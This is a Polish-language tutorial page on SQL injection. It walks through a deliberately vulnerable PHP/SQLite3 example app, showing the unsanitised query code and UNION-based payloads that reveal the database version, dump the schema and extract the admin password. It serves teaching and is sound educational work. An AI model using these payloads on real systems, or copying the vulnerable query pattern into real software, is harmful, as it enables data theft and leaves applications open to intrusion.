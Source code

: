 # Atak SQL injection

Wszyscy znamy strony, które zawierają w sobie formularze czy przekazują w inny sposób wszelakie parametry. A co jeśli parametry te nie są prawidłowo przetworzone po stronie serwera i bezpośrednio trafiają do zapytań SQL?

## Przykład 

Weźmy na warsztat [przykładową aplikację]({{ data.repo_url }}/tree/master/examples/sqlinjection) wykorzystującą bazę danych SQLlite3.

Jest to prosta strona z formularzem, do którego jeśli podamy imię to zwróci nam czy jest ono śmieszne czy nie.

![Aplikacja PHP](/assets/images/web/sqlinjection/php_app.png)

Po wpisaniu imienia, jest ono wysyłane do serwera php w celu dalszej obróbki. Tak wygląda fragment kodu odpowiadający za zapytanie do bazy danych:

```php
$name = $_GET["name"];
$db = new SQLite3('example.db');
$query = "SELECT is_funny FROM funny as f, users as u JOIN users ON f.user_name=u.user_name WHERE u.user_name='$name'";
$result = @$db->query($query);
```

Po wpisaniu `admin` otrzymujemy wynik `not funny`. 

Na początek należy przeprowadzić weryfikację czy atak SQLi jest możliwy. Można to zrobić przez podanie `'` zamiast parametru.

![Aplikacja PHP - podatna?](assets/images/web/sqlinjection/php_app_check.png)

Informacja ta mówi nam o tym, że jest to strona podatna na atak. Następnym krokiem będzie weryfikacja z jakim typem bazy danych mamy do czynienia. Można to zrobić przez sprawdzenie wersji oprogramowania - polecenie to różni się między dialektami

| Dialekt  | Polecenie  | 
|---|---|
| MySQL  | `SELECT @@version`  | 
| Oracle | `SELECT * FROM v$version`  |
| PostgreSQL | `SELECT version()`  | 
| Sqlite3 | `SELECT sqlite_version()` |

Wykonać to można przez manipulację poleceniem `UNION`, który łączy wyniki z dwóch lub więcej zapytań SQL w jedno. W tym przypadku będzie to 
```sql
admin' UNION SELECT sqlite_version(); --
```

Polecenie to zostanie po stronie serwera zamienione w:
```sql
SELECT is_funny FROM funny as f, users as u 
    JOIN users ON f.user_name=u.user_name 
    WHERE u.user_name='admin' 
UNION SELECT sqlite_version(); --'
```

![Aplikacja PHP - podatna?](assets/images/web/sqlinjection/php_app_version.png)

Dzięki temu wiemy, że jest to baza Sqlite3. Następnym krokiem będzie ekstrakcja nazw tabel i kolumn. Zrobić to można poleceniem 
```sql
SELECT sql from sqlite_master WHERE type="table"; 
```
które w tym przypadku przybierze formę
```sql
admin' UNION SELECT sql from sqlite_master; --'
```

![Aplikacja PHP - kolumny](assets/images/web/sqlinjection/php_app_columns.png)

Jako, że `UNION` wymaga takiej samej ilości kolumn w wyniku obu zapytań, dane z bazy będzie można wyciągać tylko pojedyńczo. Przykładowo hasło użytkownika `admin` pozyskamy stosując polecenie
```sql
admin' UNION SELECT password from users WHERE user_name = 'admin'; --'
```

![Aplikacja PHP - haslo](assets/images/web/sqlinjection/php_app_password.png)
